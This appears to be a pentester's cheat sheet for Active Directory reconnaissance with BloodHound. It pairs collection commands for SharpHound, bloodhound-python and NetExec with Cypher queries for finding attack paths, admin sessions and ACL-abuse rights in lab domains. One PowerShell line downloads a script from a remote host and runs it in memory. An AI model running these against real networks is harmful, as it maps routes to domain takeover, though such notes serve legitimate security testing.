 
# Local

## SharpHound

### PowerShell
```powershell
iex(iwr -uri http://10.10.16.46/SharpHound.ps1); Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\celia.almeda\Documents\ -OutputPrefix "audit"  
```

#### Help Page  
```
Get-Help Invoke-BloodHound  
```
  
# Remote
## Bloodhound-python
### Legacy 
```bash
bloodhound-python -c all -u james -p 'J@m3s_P@ssW0rd!'  -ns 10.10.10.52 -d htb.local --zip

```

### For Community Edition
```powershell
bloodhound-ce-python -c all -u james -p 'J@m3s_P@ssW0rd!'  -ns 10.10.10.52 -d htb.local --zip
```

## Netexec 

```bash
nxc ldap 10.1.1.1 -u 'username' -p 'password' --bloodhound --collection ALL --dns-server 10.1.1.1
```

# Bloodhound Usage
  
## local  
```bash
sudo neo4j start   only needed for legacy bloodhound
bloodhound  
```
  
## Raw Queries
### Get all Computers  
```
MATCH (m:Computer) RETURN m
```
  
### Get all Users  
```
MATCH (m:User) RETURN m  
```  
### Find sessions  
```
MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p  
``` 
  
### Shortest path from to high value  
```
MATCH p=shortestPath((u {highvalue: false})-[*1..]->(g:Group {name: 'DOMAIN ADMINS@INFILTRATOR.HTB'})) WHERE NOT (u)-[:MemberOf*1..]->(:Group {highvalue: true}) RETURN p  
```  
## Other queries  

### Count the distinct users logon sessions on a domain :  
```
MATCH (u1:user)  
WITH count(u1) as totalUsers  
MATCH (c:Computer)-[r:HasSession]->(u2:User)  
RETURN COUNT(DISTINCT(u2))  
```
### Get All computers with their users logon sessions :  
```
MATCH c=(C:Computer)-[r2:HasSession*1]-(U:User)   
WHERE U.name =~ ".*" return c  
```  
### Get computers having a session from usernames like -Y´ADM.*¡ (matching specific OS) :  
```
MATCH p=((S:Computer)-[r:HasSession*1]->(T:User))  
WHERE T.name =~ "ADM.*"  
AND S.operatingsystem =~ ".*XP.*"  
RETURN p  
```  
### Find all Domain Admins :  
```
MATCH (n:Group) WHERE n.objectid =~ "(?i)S-1-5-21-.*-512" WITH n MATCH p=(n)<-[r:MemberOf*1..]-(m) RETURN n,r,m
```

### For all Well-known security identifiers: 
https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/security-identifiers-in-windows.  
### Find all Domain Admins (nested SID S-1-5-21-.*-512) having a session opened on a domain computer :  

```
MATCH (m:User)-[r:MemberOf*1..]->(n:Group) WHERE n.objectid =~ "(?i)S-1-5-.*-512" WITH m MATCH q=((m)<-[:HasSession]-(o:Computer)) RETURN q  
```
### Show all high value target principals :  
```
MATCH (m {highvalue:true}) RETURN m  
```
### List of unique users with a path to a ´highvalue¡ targets :  
```
MATCH (u:User) MATCH (g {highvalue:true}) MATCH p = shortestPath((u:User)-[r:AddMember|AdminTo|AllExtendedRights|AllowedToDelegate|CanRDP|Contains|ExecuteDCOM|ForceChangePassword|GenericAll|GenericWrite|GpLink|HasSession|MemberOf|Owns|ReadLAPSPassword|TrustedBy|WriteDacl|WriteOwner|GetChanges|GetChangesAll*1..]->(g)) RETURN DISTINCT(u.name) AS USER, u.enabled as ENABLED,count(p) as PATHS order by u.name  
```
### Shortest paths from Domain Users to ´highvalue¡ targets :  
  ```
MATCH p=shortestPath((g:Group {name:"DOMAIN USERS@PHACKT.LOCAL"})-[*1..]->(n {highvalue:true})) WHERE g.objectid ENDS WITH '-513' AND g<>n return p  
  ```
### Find user with a username like ´ADM.*¡ who logged on a computer which has a owned local admin :  
  ```
MATCH c=(U:User {owned:true})-[r:AdminTo*1]-(C:Computer)-[r2:HasSession*1]-(P:User) WHERE P.name =~ "A_.*" return c  
  ```
### Find all edges that a ´specific user¡ has against all the nodes (HasSession is not calculated, as it is an edge that comes from computer to user, not from user to computer) :  
 ``` 
MATCH (n:User) WHERE n.name =~ 'HELPDESK@DOMAIN.GR' MATCH (m) WHERE NOT m.name = n.name MATCH p=allShortestPaths((n)-[r:MemberOf|HasSession|AdminTo|AllExtendedRights|AddMember|ForceChangePassword|GenericAll|GenericWrite|Owns|WriteDacl|WriteOwner|CanRDP|ExecuteDCOM|AllowedToDelegate|ReadLAPSPassword|Contains|GpLink|AddAllowedToAct|AllowedToAct|SQLAdmin*1..]->(m)) RETURN p  
 ``` 
### Find all the edges that any UNPRIVILEGED user (based on the admincount:False) has against all the nodes :      

```
MATCH (n:User {admincount:False}) MATCH (m) WHERE NOT m.name = n.name MATCH p=allShortestPaths((n)-[r:MemberOf|HasSession|AdminTo|AllExtendedRights|AddMember|ForceChangePassword|GenericAll|GenericWrite|Owns|WriteDacl|WriteOwner|CanRDP|ExecuteDCOM|AllowedToDelegate|ReadLAPSPassword|Contains|GpLink|AddAllowedToAct|AllowedToAct|SQLAdmin*1..]->(m)) RETURN p  
```

### Find interesting edges related to ´ACL Abuse¡ that unprivileged users have against other users :  

```
MATCH (n:User {admincount:False}) MATCH (m:User) WHERE NOT m.name = n.name MATCH p=allShortestPaths((n)-[r:AllExtendedRights|ForceChangePassword|GenericAll|GenericWrite|Owns|WriteDacl|WriteOwner*1..]->(m)) RETURN p  
```

### Find interesting edges related to ´ACL Abuse¡ that unprivileged users have against computers :  
  
```
MATCH (n:User {admincount:False}) MATCH p=allShortestPaths((n)-[r:AllExtendedRights|GenericAll|GenericWrite|Owns|WriteDacl|WriteOwner|AdminTo|CanRDP|ExecuteDCOM|ForceChangePassword*1..]->(m:Computer)) RETURN p  
```

### Find if unprivileged users have rights to add members into groups :   
```
MATCH (n:User {admincount:False}) MATCH p=allShortestPaths((n)-[r:AddMember*1..]->(m:Group)) RETURN p  
```
  
### Find only the AdminTo privileges (edges) of the domain users against the domain computers :         
```
MATCH p1=shortestPath(((u1:User)-[r1:MemberOf*1..]->(g1:Group))) MATCH p2=(u1)-[:AdminTo*1..]->(c:Computer) RETURN p2  
```
### Find which groups canRDP to computers :  
```
MATCH (n:Group) MATCH (m:Computer) MATCH p=allShortestPaths((n)-[r:CanRDP*1..]->(m)) RETURN p  
 ``` 
 
The canRDP edge runs from a user or a group to a computer and incates that the principals are part of the Remote Desktop Users local group on the target system.  

### Find what groups have local admin rights :             
```
MATCH p=(m:Group)-[r:AdminTo]->(n:Computer) RETURN m.name, n.name ORDER BY m.name  
```  
### Find what users have local admin rights :                
``` 
MATCH p=(m:User)-[r:AdminTo]->(n:Computer) RETURN m.name, n.name ORDER BY m.name  
``` 


### Mark a user as owned :  
```
MATCH (n:User) WHERE n.name STARTS WITH toUpper('brobin') SET n.owned=true RETURN n  
```
### Displays all GPOs :  
```
Match (n: GPO) return n  
```
### Displays all GPOs containing a ´keyword¡ in their name  
```
Match (n: GPO) WHERE n.name CONTAINS "SERVER" return n  
```
### Find if a domain user has some interesting rights on a GPO :  

```
MATCH p = (u: User) - [r: AllExtendedRights | GenericAll | GenericWrite | Owns | WriteDacl | WriteOwner | GpLink * 1 ..] -> (g: GPO) RETURN p LIMIT 25
```